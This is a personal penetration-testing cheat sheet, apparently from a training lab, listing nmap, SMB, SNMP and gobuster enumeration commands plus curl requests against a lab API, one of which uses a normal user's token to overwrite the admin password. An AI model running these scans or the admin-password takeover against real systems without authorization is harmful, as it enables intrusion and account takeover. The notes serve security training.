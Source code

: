 # Cheetsheet
## Websites
- Shodan.io: Gives info on websites
- https://www.ssllabs.com/ssltest/ = ssl vul teste and info on sites


  
Enumeration tips:
Can use inspect elements on a web page to find out what server its running on






















# Nmap 

### Starting scan 
```
nmap -sCV -T4 -O --osscan-guess -v -p- <target_ip>

```

### Script for checking for base cves

```
sudo nmap -sV -p<port> --script "vuln" <ip>
```


### run udp after tcp nmap to see if its open because its important if it is
```
sudo nmap -Pn -n $IP -sU --top-ports=100 --reason
```
### SMD enumeration typically for port 139 and 445 if they open
```
nmap -p 139,445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* <target_ip>
```

# WEBsite scanning

### Gobuster: map all its publicly-accessible files and directories
```
gobuster dir -u <target> -w /usr/share/wordlists/dirb/common.txt
```
If you can find anything under it then you can go even further like with this example to find more
```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```
Use this command to dig deeper if you find users 
```
curl -i http://192.168.50.16:5002/users/v1
```
If found info and can try to login with 
```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
If cant login could try to make my own account on the site
```
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```
Can use the put method to insert account if other methods fail( Also the OAuth token is gathered from a login of a normal user)
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```


### Net cat
It is used to send and recive data over an open port, -lvnp is to setup a listener
```
nc <target_ip> <port>
```


### SNMP
```
-Nmap UDP scan-
sudo nmap <IP> -A -T4 -p- -sU -v -oN nmap-udpscan.txt

snmp walk is important to see what software and user accounts are on the machine

snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP>     #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25    #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2     #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2       #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3           #Opened TCP Ports

-Windows MIB values-
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports



```


#SQL injections
Put more info down below




























